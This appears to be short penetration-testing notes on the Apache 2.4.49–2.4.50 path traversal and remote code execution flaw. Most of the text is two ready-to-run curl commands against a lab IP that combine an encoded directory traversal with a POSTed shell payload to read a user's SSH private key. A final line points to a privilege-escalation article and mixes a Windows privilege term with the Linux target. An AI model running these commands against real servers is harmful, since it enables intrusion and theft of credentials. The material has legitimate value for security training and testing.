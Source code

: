 # Apache HTTP Server 2.4.49 - 2.4.50 - Path Traversal & Remote Code Execution (RCE)

## Enumerate
- phpinfo.php


https://www.exploit-db.com/exploits/50512

```
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; whoami" "http://192.168.231.201/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/home/alfred/id_rsa"
```

```
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; whoami" "http://192.168.231.201/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/home/alfred/.ssh/id_rsa"
```

- If Apache `svc_apache` user doesn't have `SeImpersonateToken` privilege check this article: https://itm4n.github.io/localservice-privileges/?source=post_page-----b95d3146cfe9--------------------------------

